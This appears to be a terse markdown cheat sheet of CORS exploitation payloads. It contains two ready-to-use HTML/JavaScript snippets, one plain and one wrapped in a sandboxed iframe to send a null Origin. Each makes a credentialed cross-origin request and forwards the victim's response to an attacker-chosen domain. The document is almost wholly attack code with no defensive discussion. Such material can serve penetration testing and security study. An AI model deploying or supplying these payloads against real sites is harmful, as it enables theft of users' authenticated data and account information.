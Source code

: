 # Cors
## Requests with Cookies
```html
<script>
function reqListener() {
location = '//<DOMAIN>/key='+this.responseText;
}

var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('<METHOD>', '<URL>', true);
req.withCredentials = true;
req.send();
</script>
```

## Whitelists
**Note: The Origin header has nothing to do with non-controllable origin**
**Note: Still useful to check if server uses it**
### Null Origin
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms"
src="data:text/html, <script>
function reqListener() {
location = '//<DOMAIN>/key='+this.responseText;
}

var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('<METHOD>', '<URL>', true);
req.withCredentials = true;
req.send();
</script>"
/>
```
